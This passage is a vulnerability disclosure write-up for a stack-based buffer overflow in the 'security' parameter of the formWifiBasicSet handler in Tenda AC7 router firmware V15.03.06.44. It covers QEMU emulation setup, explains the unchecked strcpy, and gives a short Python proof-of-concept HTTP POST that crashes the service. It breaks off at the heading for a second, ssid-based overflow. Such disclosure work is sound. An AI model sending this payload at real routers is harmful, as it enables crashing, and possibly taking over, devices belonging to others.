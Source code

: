 Overview
--
Experimental environment：ub20

Firmware download website：[AC7 V1.0 升级软件](https://www.tenda.com.cn/material/show/102776)
![image](https://github.com/user-attachments/assets/c15fa54c-802a-45a4-aa5f-18607632f90b)

### Environmental simulation
need build Network bridge:

```text-x-haskell
apt install uml-utilities bridge-utils
brctl addbr br0
ifconfig br0 192.168.142.100/24
brctl addif br0 ens33//搭建网桥
```

Directly using the httpd in the original firmware will cause the simulation to fail due to the environment check. Here is the patched httpd file (a7__V15.03.06.44_httpd_ok file in this project) (modify the assembly to force skip the environment check step):
https://github.com/Raining-101/IOT_cve/blob/main/a7__V15.03.06.44_httpd_ok

qemu command：

```text-x-haskell
sudo qemu-mipsel-static -L . ./bin/httpd
```

Attacked version
-----

V15.03.06.44

formWifiBasicSet security stackoverflow
---------------------------------------

### Vulnerability Details

A stack-based buffer overflow vulnerability in firmware version TenDa AC7 V15.03.06.44 allows a remote attacker to execute arbitrary code through a stack overflow attack using the security parameter of the formWifiBasicSet function.

formWifiBasicSet

![](api/attachments/uJL66Wcs7OWt/image/image.png)

formWifiBasicSet takes the parameter security from user input, but does not validate the length of user input.

After that, the function copies security directly into param via functions, resulting in a stack overflow vulnerability. strcpy

![](api/attachments/AAjYQ7b6EN6s/image/image.png)

### poc

```text-plain
import requests


def calculate_length(data):
    count = 0
    for x, y in data.items():
        count += len(x) + len(y) + 2
    return count - 1


data = {'security': b'R' * 0x1000}

headers = {
    'Host': '192.168.142.100',
    'Content-Length': f'{calculate_length(data)}',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Cookie': 'password=1234',
    'User-Agent':
    'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36',
    'Accept':
    'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'Accept-Encoding': 'gzip, deflate',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'Upgrade-Insecure-Requests': '1',
    'Connection': 'close'
}

url = 'http://192.168.142.100/goform/WifiBasicSet'

res = requests.post(url=url, headers=headers, data=data, verify=False)

print(res)
```

![](api/attachments/MkffXHvrQYJE/image/image.png)

formWifiBasicSet  ssid stackoverflow
------------------------------------

### Vulnerability Details
